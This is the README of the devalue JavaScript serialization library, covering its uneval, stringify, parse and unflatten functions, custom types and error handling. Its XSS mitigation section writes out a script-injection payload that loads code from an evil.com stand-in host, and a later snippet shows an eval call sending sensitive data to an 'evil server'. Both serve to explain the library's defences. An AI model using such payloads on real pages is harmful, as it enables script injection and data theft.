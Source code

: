 # devalue

Like `JSON.stringify`, but handles

- cyclical references (`obj.self = obj`)
- repeated references (`[value, value]`)
- `undefined`, `Infinity`, `NaN`, `-0`
- regular expressions
- dates
- `Map` and `Set`
- `BigInt`
- `ArrayBuffer` and Typed Arrays
- custom types via replacers, reducers and revivers

Try it out [here](https://svelte.dev/repl/138d70def7a748ce9eda736ef1c71239?version=3.49.0).

## Goals:

- Performance
- Security (see [XSS mitigation](#xss-mitigation))
- Compact output

## Non-goals:

- Human-readable output
- Stringifying functions

## Usage

There are two ways to use `devalue`:

### `uneval`

This function takes a JavaScript value and returns the JavaScript code to create an equivalent value — sort of like `eval` in reverse:

```js
import * as devalue from 'devalue';

let obj = { message: 'hello' };
devalue.uneval(obj); // '{message:"hello"}'

obj.self = obj;
devalue.uneval(obj); // '(function(a){a.message="hello";a.self=a;return a}({}))'
```

Use `uneval` when you want the most compact possible output and don't want to include any code for parsing the serialized value.

### `stringify` and `parse`

These two functions are analogous to `JSON.stringify` and `JSON.parse`:

```js
import * as devalue from 'devalue';

let obj = { message: 'hello' };

let stringified = devalue.stringify(obj); // '[{"message":1},"hello"]'
devalue.parse(stringified); // { message: 'hello' }

obj.self = obj;

stringified = devalue.stringify(obj); // '[{"message":1,"self":0},"hello"]'
devalue.parse(stringified); // { message: 'hello', self: [Circular] }
```

Use `stringify` and `parse` when evaluating JavaScript isn't an option.

### `unflatten`

In the case where devalued data is one part of a larger JSON string, `unflatten` allows you to revive just the bit you need:

```js
import * as devalue from 'devalue';

const json = `{
  "type": "data",
  "data": ${devalue.stringify(data)}
}`;

const data = devalue.unflatten(JSON.parse(json).data);
```

## Custom types

You can serialize and deserialize custom types by passing a second argument to `stringify` containing an object of types and their _reducers_, and a second argument to `parse` or `unflatten` containing an object of types and their _revivers_:

```js
class Vector {
	constructor(x, y) {
		this.x = x;
		this.y = y;
	}

	magnitude() {
		return Math.sqrt(this.x * this.x + this.y * this.y);
	}
}

const stringified = devalue.stringify(new Vector(30, 40), {
	Vector: (value) => value instanceof Vector && [value.x, value.y]
});

console.log(stringified); // [["Vector",1],[2,3],30,40]

const vector = devalue.parse(stringified, {
	Vector: ([x, y]) => new Vector(x, y)
});

console.log(vector.magnitude()); // 50
```

If a function passed to `stringify` returns a truthy value, it's treated as a match.

You can also use custom types with `uneval` by specifying a custom replacer:

```js
devalue.uneval(vector, (value, uneval) => {
	if (value instanceof Vector) {
		return `new Vector(${value.x},${value.y})`;
	}
}); // `new Vector(30,40)`
```

Note that any variables referenced in the resulting JavaScript (like `Vector` in the example above) must be in scope when it runs.

## Error handling

If `uneval` or `stringify` encounters a function or a non-POJO that isn't handled by a custom replacer/reducer, it will throw an error. You can find where in the input data the offending value lives by inspecting `error.path`:

```js
try {
	const map = new Map();
	map.set('key', function invalid() {});

	uneval({
		object: {
			array: [map]
		}
	});
} catch (e) {
	console.log(e.path); // '.object.array[0].get("key")'
}
```

## XSS mitigation

Say you're server-rendering a page and want to serialize some state, which could include user input. `JSON.stringify` doesn't protect against XSS attacks:

```js
const state = {
	userinput: `</script><script src='https://evil.com/mwahaha.js'>`
};

const template = `
<script>
  // NEVER DO THIS
  var preloaded = ${JSON.stringify(state)};
</script>`;
```

Which would result in this:

```html
<script>
	// NEVER DO THIS
	var preloaded = {"userinput":"
</script>
<script src="https://evil.com/mwahaha.js">
	"};
</script>
```

Using `uneval` or `stringify`, we're protected against that attack:

```js
const template = `
<script>
  var preloaded = ${uneval(state)};
</script>`;
```

```html
<script>
	var preloaded = {
		userinput:
			"\\u003C\\u002Fscript\\u003E\\u003Cscript src='https:\\u002F\\u002Fevil.com\\u002Fmwahaha.js'\\u003E"
	};
</script>
```

This, along with the fact that `uneval` and `stringify` bail on functions and non-POJOs, stops attackers from executing arbitrary code. Strings generated by `uneval` can be safely deserialized with `eval` or `new Function`:

```js
const value = (0, eval)('(' + str + ')');
```

## Other security considerations

While `uneval` prevents the XSS vulnerability shown above, meaning you can use it to send data from server to client, **you should not send user data from client to server** using the same method. Since it has to be evaluated, an attacker that successfully submitted data that bypassed `uneval` would have access to your system.

When using `eval`, ensure that you call it _indirectly_ so that the evaluated code doesn't have access to the surrounding scope:

```js
{
	const sensitiveData = 'Setec Astronomy';
	eval('sendToEvilServer(sensitiveData)'); // pwned :(
	(0, eval)('sendToEvilServer(sensitiveData)'); // nice try, evildoer!
}
```

Using `new Function(code)` is akin to using indirect eval.

## See also

- [lave](https://github.com/jed/lave) by Jed Schmidt
- [arson](https://github.com/benjamn/arson) by Ben Newman. The `stringify`/`parse` approach in `devalue` was inspired by `arson`
- [oson](https://github.com/KnorpelSenf/oson) by Steffen Trog
- [tosource](https://github.com/marcello3d/node-tosource) by Marcello Bastéa-Forte
- [serialize-javascript](https://github.com/yahoo/serialize-javascript) by Eric Ferraiuolo
- [jsesc](https://github.com/mathiasbynens/jsesc) by Mathias Bynens
- [superjson](https://github.com/blitz-js/superjson) by Blitz
- [next-json](https://github.com/iccicci/next-json) by Daniele Ricci

## License

[MIT](LICENSE)
